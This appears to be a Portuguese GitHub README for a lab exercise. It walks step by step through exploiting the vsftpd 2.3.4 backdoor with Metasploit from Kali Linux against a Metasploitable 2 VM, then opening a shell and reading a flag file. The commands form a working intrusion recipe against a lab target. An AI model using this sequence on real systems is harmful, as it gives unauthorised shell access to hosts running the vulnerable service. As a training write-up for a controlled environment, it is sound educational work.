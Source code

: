 # Explorar falhas no protocolo FTP

Este projeto demonstra como explorar uma vulnerabilidade no protocolo FTP utilizando o Metasploit para acessar um arquivo em uma máquina vulnerável.

## Objetivo

Encontrar e acessar um arquivo de texto criado em uma máquina virtual vulnerável (Metasploitable) através de uma outra máquina (Kali Linux).

## Ferramentas Utilizadas

- **Kali Linux**
- **Metasploitable 2** (máquina vulnerável)
- **Metasploit Framework**

## Procedimento

### 1. Criar um arquivo na VM vulnerável
Na máquina Metasploitable, criei um arquivo `flag.txt` com o seguinte conteúdo:
```bash
"teste de penet"
```

Comando para criar o arquivo:
```bash
echo "teste de penet" > flag.txt
```

Localização do arquivo: `/home/msfadmin/flag.txt`


Verificação de arquivo e ip da máquina vulnerável:

![image](https://github.com/user-attachments/assets/de124486-1ebc-4ffe-bd53-19b07ed4412e)


### 2. Configuração do Metasploit na Kali Linux

No Kali Linux, execute os seguintes passos:

1. Abra o Metasploit com o comando:
   ```bash
   msfconsole
   ```

2. Escolha o exploit `vsftpd_234_backdoor`:
   ```bash
   use unix/ftp/vsftpd_234_backdoor
   ```

3. Configure o IP de destino (a máquina vulnerável):
   ```bash
   set rhosts 192.168.56.101
   ```

4. Verifique as opções configuradas:
   ```bash
   show options
   ```

5. Configure o payload para interagir com o sistema:
   ```bash
   set payload payload/cmd/unix/interact
   ```

6. Execute o exploit:
   ```bash
   exploit
   ```

7. Verifique o IP para confirmar que é o mesmo da VM vulnerável:
   ```bash
   ip addr
   ```
![image](https://github.com/user-attachments/assets/f6249f18-0122-4d4a-835e-4f1e40bbad2b)


### 3. Acessar o arquivo na máquina vulnerável

1. Navegue até o diretório do arquivo:
   ```bash
   ls
   cd home
   cd msfadmin
   ls
   ```

2. Abra o arquivo para ler o conteúdo:
   ```bash
   nano flag.txt
   ```
![image](https://github.com/user-attachments/assets/bfc35960-ca98-403c-9396-8a678ba1ddfe)


## Resultados

Conseguimos localizar e acessar o arquivo `flag.txt` com sucesso através do Metasploit.

---

**Nota:** Este experimento foi realizado em um ambiente controlado para fins educacionais.

